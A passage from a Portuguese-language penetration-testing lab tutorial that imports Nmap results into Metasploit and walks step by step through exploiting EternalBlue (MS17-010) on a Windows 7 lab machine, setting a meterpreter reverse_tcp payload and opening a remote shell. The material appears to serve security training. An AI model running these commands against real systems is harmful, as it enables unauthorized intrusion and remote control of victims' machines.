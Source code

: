 
## 6. Importar resultados para Metasploit (opcional)

Se quiser centralizar resultados no banco de dados do Metasploit:

Dentro do `msfconsole`:

```bash
db_import /tmp/nmap_results.xml
hosts
services
```

`hosts` e `services` exibem o que foi importado e facilitam a escolha de módulos.

---

## 7. Exploração com Metasploit — EternalBlue (MS17-010) — passo a passo

**Contexto:** este exemplo usa EternalBlue (MS17-010) em Windows 7 vulnerável dentro do lab.

No `msfconsole`:

1. Procurar e carregar o exploit:

```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

2. Verificar opções do módulo:

```bash
show options
```

3. Configurar parâmetros:

```bash
set RHOSTS 192.168.0.1
set LHOST 192.168.56.100          # IP da sua máquina Kali
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

4. Confirmar vulnerabilidade antes de explorar:

```bash
check
# se retornar "The target is VULNERABLE", prosseguir
```

5. Executar o exploit:

```bash
exploit
```

6. Após sucesso — listar e entrar na sessão:

```bash
sessions -l
sessions -i 1
sysinfo
shell
```
